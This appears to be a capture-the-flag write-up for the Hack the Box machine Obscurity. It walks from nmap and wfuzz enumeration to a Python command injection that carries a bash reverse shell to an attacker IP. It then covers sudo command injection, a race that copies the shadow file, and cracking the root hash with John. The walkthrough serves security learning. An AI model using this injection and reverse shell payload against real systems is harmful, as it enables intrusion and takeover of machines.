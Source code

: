 +++
author = "Nick"
categories = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
date = 2020-05-09T14:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/info.png"
slug = "hack-the-box-obscurity"
summary = "Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!"
tags = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
title = "Hack the Box - Obscurity"

+++


Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!

As usual we start with ```nmap```: ```nmap -sC -sV -T4 -p- -oA initial_scan 10.10.10.168```.

Here are our results:
```
Nmap scan report for 10.10.10.168
Host is up (0.055s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 23 Dec 2019 14:38:24
|     Server: BadHTTPServer
|     Last-Modified: Mon, 23 Dec 2019 14:38:24
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=12/23%Time=5E00D11F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Mon,\x2023\x20Dec\x202
SF:019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-Modified:\x20Mon,\x2023
SF:\x20Dec\x202019\x2014:38:24\nContent-Length:\x204171\nContent-Type:\x20
SF:text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\
SF:"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>
SF:\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t
SF:<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-
SF:scale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20n
SF:ame=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Temp
SF:late\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20s
SF:tylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/bo
SF:otstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-
SF:awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templ
SF:atemo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-targe
SF:t=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n
SF:<div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinne
SF:r-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x2
SF:0Mon,\x2023\x20Dec\x202019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-
SF:Modified:\x20Mon,\x2023\x20Dec\x202019\x2014:38:24\nContent-Length:\x20
SF:4171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x2
SF:0html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\
SF:t<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20c
SF:ontent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20cont
SF:ent=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\n
SF:Easy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pr
SF:ofile\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"styles
SF:heet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\
SF:"scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x2
SF:0section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"
SF:sk-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our results seem to show a web server with a production and dev enviornment. Looks like we're running ```Wordpress``` on the 9000 port as well. Let's visit the site and see what's here. We know port 80 is closed but 8080 is running and we are greeted a basic page. From browsing the page we get a hostname, obscure.htb, so we'll add that to our host file. We also know there are some more settings listed in a secret development directory somewhere. So we'll load up ```gobuster``` and see what we get back.

Command:
```gobuster dir -u http://obscure.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 75```

When we run this we get a flood of errors back. This is to do ```gobuster``` using ```Head``` requests vs ```get```. Well, we know that we are looking for ```SuperSecureServer.py```. We can just fuzz the directory(ies) we are looking for using ```ffuf``` or ```wfuzz```.

Command:
```wfuzz -c -w /usr/share/wordlists/dirb/small.txt --hc 404 'http://obscure.htb:8080/FUZZ/SuperSecureServer.py'```

I ran a few larger wordlists against the target but all of them failing after ~2,200 requests. So we pick an even smaller listing.

![](/images/2019/12/obscurity_fuzz.gif)

We find our target is stored under ```develop```. Lets get the file.

Command: 
```wget 'http://obscure.htb:8080/develop/SuperSecureServer.py'```

Once we have it downloaded, we look at what's inside.

![](/images/2019/12/image-40.png)

We found our foothold. If we are able to pass our command and escape the first part, we should be able to execute some python code we inject. We need to make sure we format our request correctly. We want to close the first part of the ommand with ```';``` then execute our code and close the command. I used a simple bash reverse shell:

```
;os.system('bash%20-c%20"bash%20-i%20>&%20/dev/tcp/10.10.15.129/4444%200>&1"');'
```

We apply this to our URL and wait for our connector...

![](/images/2019/12/obscurity_www_shell.gif)

We now have a shell as ```www-data```. Now that we have a shell we can start enumerating internally. We see a few files in ```Robert```'s home directory. ```SuperSecureCrypt.py``` and ```passwordreminder.txt```. We download the python script and look at it locally. It looks to contain an [```Vigenere cipher```](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) method. If you are familiar with this cipher you know that we can obtain the password for the file if you know the original input.

![](/images/2019/12/obscurity_key.gif)

It looks like our password was ```alexandrovich```. We can now take this password and decrypt our ```passwordreminder.txt```. Repeating the process but supplying a ```-k``` of ```alexanderovich``` gives us a password of ```SecThruObsFTW```. Which assumably is Robert's password. We try to SSH as him and it works.

![](/images/2019/12/obscurity_robert_ssh-1.gif)

Now that we've gotten our ```user.txt```. Lets start enumerating as Robert. We see that Robert is able to launch ```BetterSSH.py``` as sudo.

![](/images/2019/12/image-41.png)

When we look through ```BetterSSH.py``` we see there are a few avenue's of attack. The first being this ```command injection```.

![](/images/2019/12/image-42.png)

The application calls the command you input with the ```-u``` flag. So if we simply apply another ```-u``` to our input, we can do things as ```root```!

![](/images/2019/12/obscurity_root_1.gif)

The other method is that we see that copies the system shadow file out to a temporary directory every .1 seconds. If we can monitor this file location, we can snag the file before it's deleted. So we'll make a file on ```/tmp``` called snag. Then we'll run the ```watch``` command every .1 seconds. We then run the ```BetterSSH.py``` script and snag the file before it's created.

Command:
```watch -n .1 cp /tmp/SSH/* /tmp/snag```

![](/images/2019/12/obscurit_root_2.gif)

We can then get the contents of the file we copied. Inside it we have the root hash.

![](/images/2019/12/image-43.png)

We can just run it through ```John``` and see if we get a password.

![](/images/2019/12/obscurity_root_hash-1.gif)

Sure enough, we get one: ```mercedes```. We can now just ```su``` to root.

![](/images/2019/12/obscurity_root_su.gif)

There we have it. Another box down!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

